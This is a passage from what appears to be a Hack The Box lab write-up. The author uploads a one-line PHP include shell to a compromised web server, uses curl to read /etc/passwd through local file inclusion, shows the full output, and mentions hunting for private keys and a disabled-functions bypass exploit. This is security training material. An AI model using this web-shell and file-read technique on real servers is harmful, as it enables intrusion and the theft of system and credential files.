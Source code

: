 ## Local File Inclusion
I uploaded another file with following contents.
```php
<?php
include($_REQUEST['filename']);
?>
```
### Getting the content of /etc/passwd
```console
local@local:~/Documents/htb/boxes/compromised$ curl http://10.10.10.207/shop/vqmod/xml/shell.php?filename=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
red:x:1001:1001::/home/red:/bin/false
```
Now we can read any file from the server, which the account that is running the webserver has read access to.  
Also from the output of the /etc/passwd, I noticed that mysql which is a service account has **/bin/bash** as its login shell which is a little unusual.
I played with this LFI for a while and tried blindly to pull the private key for users like sysadmin and mysql but was not successful. So I focused on bypassing the disabled functions and found [this](https://www.exploit-db.com/exploits/47462) exploit.
